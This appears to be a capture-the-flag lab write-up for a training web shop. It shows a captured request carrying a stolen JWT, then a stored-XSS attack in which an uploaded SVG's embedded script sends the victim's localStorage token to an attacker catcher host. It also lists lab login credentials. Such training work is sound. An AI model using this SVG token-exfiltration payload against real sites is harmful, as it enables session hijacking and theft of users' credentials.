 ```
Priority: u=3, i
Referer: https://9e869a19-cf02-4e1c-b1ec-6fb2cfe54c74.i.vuln.land/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
X-Forwarded-For: 104.28.87.87
X-Forwarded-Host: be882089-ad91-45b5-900a-c06e0a7c6d6f.i.vuln.land
X-Forwarded-Port: 443
X-Forwarded-Proto: https
X-Forwarded-Server: traefik.vuln.land
X-Real-Ip: 104.28.87.87


QueryString:
b'token=%22eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1JldGFpbGVyIjpmYWxzZSwiX2lkIjoiNWFhMDQ4MWU4NzZkOWQzOWQ0Mzk3ODU5IiwidXNlcm5hbWUiOiJjdXN0b21lcjAiLCJmaXJzdG5hbWUiOiJKdWxpYW5lIiwibGFzdG5hbWUiOiJTY2h1bHplIiwiZW1haWwiOiJKdWxpYW5lLlNjaHVsemVAZ21haWwuY29tIiwiaWF0IjoxNzYwNTU3NjI2LCJhdWQiOiJzZWxmIiwiaXNzIjoid2Vic2hvcCJ9.WuihbMBHR065TbqO7194ZZrUSyGaWj2VTok5OAPsMlo%22'
===================================================
```

The captured JWT token should decode to show victim's user information (customer1).

# 6 GlockenEmil 2.0 – SVG

## Attack Overview

Exploit a stored XSS vulnerability in the Community area by uploading a malicious SVG image containing JavaScript that steals the authentication token from localStorage.

## Attack Steps

1. **Login** as customer0/compass0
2. **Navigate** to Community (top right)
3. **Create malicious SVG file** (malicious.svg):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<svg xmlns="http://www.w3.org/2000/svg" width="1000" height="1000" viewBox="0 0 32 32">
  <rect fill="#f00" height="32" width="32"/>
  <rect fill="#fff" height="6" width="20" x="6" y="13"/>
  <rect fill="#fff" height="20" width="6" x="13" y="6"/>
  <script type="text/javascript">
    fetch('https://be882089-ad91-45b5-900a-c06e0a7c6d6f.i.vuln.land/x?token=' + localStorage.getItem('token'));
  </script>
</svg>
```

4. **Upload the SVG** as a post in the Community area
5. **Victim simulation**: Open a new browser session, login as customer1/compass1, click "Home" to load the page containing the malicious SVG
6. **Token exfiltration**: When the SVG renders, the embedded JavaScript executes and sends the token to the attacker's catcher

